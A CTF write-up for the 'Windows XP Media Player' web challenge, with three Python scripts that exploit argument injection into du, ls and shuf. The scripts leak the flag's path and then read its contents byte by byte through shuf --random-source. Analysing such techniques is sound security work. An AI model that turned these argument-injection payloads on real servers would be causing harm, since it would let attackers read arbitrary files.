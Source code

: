 # Windows XP Media Player (web, 810p, 5 solves)

Windows XP Media Player is a web challenge.
It has a nice Windows XP interface.
The flag is stored on the filesystem, in `/flag/<rand_hash>/<rand_hash>`

The API allows to create, shuffle and skip a song from the music queue.
It also allows to create, show and display statistics about playlists.

Internally, the playlists operations uses unix commands from the GNU binutils tools:
- create : mkdir {args}
- stat : dh -sh {args}
- show : ls -A {args}

These commands are vulnerable to argument injections.
All arguments must be real files: a file has to be created for every injected argument.

The following script leaks the full path of the flag, character by character, by using `du --exclude`
```python
import requests, re, sys

HOST = 'http://windows-xp-media-player.balsnctf.com'

s = requests.Session()
cookie_obj = requests.cookies.create_cookie(domain='windows-xp-media-player.balsnctf.com',name='session',value='...')
s.cookies.set_cookie(cookie_obj)

res = s.get(HOST)

prefix = sys.argv[1]
username = re.search('User: ([^<]*)<', res.text)[1]

while True:
    for c in '0123456789abcdef':
        res = s.get(HOST + '/q/add', params = {
            'args': f'--hide --output=/sandbox/{username}/--exclude={prefix}{c}*',
        })

        res = s.get(HOST + '/q/skip')

        res = s.get(HOST + '/q/add', params = {
            'args': '/flag',
        })

        res = s.get(HOST + '/q/shuf')

        res = s.get(HOST, params = {
            'args': f'--files0-from=zzzzz --exclude={prefix}{c}*',
            'op': 'stat'
        })
        print(prefix + c, len(res.text), res.text.split('\n')[58])

        if '8.0K' in res.text.split('\n')[58]: # or '12K'
            prefix += c
            break    
```

The path is located at `/flag/f176872c644795fd45b6719f8723ca90/368f097864ce90340ef141da53983e4b`

Reading the flag can be done with `shuf --random-source=/flag/... -n$x`
This command will shuffle deterministically the `$x` first lines of the standard input.
If the input has 256 lines, it will first read a byte `b` from the entropy source file, and print the `b`th line.

The following proof-of-concept will print the content of a local file named `a`:
```python
#!/usr/bin/env python
from subprocess import check_output

state = [f"{x:02x}" for x in range(0x100)]
cstate = [f"{x:02x}" for x in range(0x100)]

def shuf(n):
    return (
        check_output(["shuf", "-e", *state, "--random-source=a", "-n", str(n),])
        .strip()
        .decode()
    )


def swap(x, y):
    cstate[x], cstate[y] = cstate[y], cstate[x]


for i in range(100):
    # r = last line of shuf
    r = shuf(i + 1).split("\n")[-1]
    r = cstate.index(r) - i
    print(chr(r))
    swap(i, i+r)

```



Finally, the following code leaks the flag content from the remote server.
The whole execution takes around 15-20 minutes :
```python
#!/usr/bin/env python
from bitk import BurpSession
from bs4 import BeautifulSoup
from tqdm import tqdm
import re


s = BurpSession()
ROOT = "http://windows-xp-media-player.balsnctf.com"
#ROOT = "http://127.0.0.1"


def get(path, *args, **kwargs):
    return s.get(f"{ROOT}{path}", *args, **kwargs)


def create(args):
    params = {"args": args, "op": "create"}
    return get(f"/", params=params).text


def show(args):
    params = {"args": args, "op": "show"}
    return get(f"/", params=params).text


def stat(args):
    params = {"args": args, "op": "stat"}
    return get(f"/", params=params).text


def add(args):
    params = {"args": args}
    return get("/q/add", params=params).text


def shuf():
    r = get("/q/shuf")
    if r.status_code == 200:
        return r.text
    return get("/").text


def skip():
    return get("/q/skip").text


def get_user_id(html):
    return re.findall(r"User: ([a-f0-9]+)", html)[0]


def print_show_output(html):
    soup = BeautifulSoup(html, "html.parser")
    divs = soup.select(".field-row>label")
    out = []
    for d in divs:
        out.append(d.contents[0] if d.contents else "")
    return out


def create_args(*args):
    return "\n".join(f"XX{arg}" for arg in args)


def create_file(user, filename):
    add(f"--hide --output=/sandbox/{user}/{filename}")
    skip()
    shuf()
    skip()


html = create("-p ./--random-source=/flag/f176872c644795fd45b6719f8723ca90/368f097864ce90340ef141da53983e4b")
user = get_user_id(html)
create_file(user, f"-n")
for i in tqdm(range(256)):
    create_file(user, f"{i}")




state = [f"{x}" for x in range(256)]
cstate = [f"{x}" for x in range(256)]

def swap(x, y):
    cstate[x], cstate[y] = cstate[y], cstate[x]

for i in range(100):
    add("--hide --random-source=/flag/f176872c644795fd45b6719f8723ca90/368f097864ce90340ef141da53983e4b -n " + str(i+1) + " " + " ".join(state))
    skip()
    r = shuf()
    r = print_show_output(r)
    r = r[i]
    r = cstate.index(r) - i
    print(chr(r))
    swap(i, i+r)
    for _ in range(i+1):
        skip()
```